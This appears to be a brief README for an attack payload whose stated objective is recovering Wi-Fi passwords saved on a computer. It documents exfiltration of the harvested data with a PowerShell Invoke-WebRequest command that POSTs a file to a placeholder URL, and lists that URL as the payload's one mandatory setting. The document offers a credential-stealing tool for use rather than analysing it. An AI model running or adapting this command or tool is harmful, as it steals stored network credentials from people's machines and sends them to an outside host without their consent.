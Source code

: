 # Objective

Allows you to recover wifi passwords saved on the computer.


# Data recovery

The data will be sent to the URL with the following powershell command:

    Invoke-WebRequest -Uri http://example.com -Method POST -InFile /tmp/data


# Settings

* __URL__ (mandatory) : The URL to which the file will be sent.
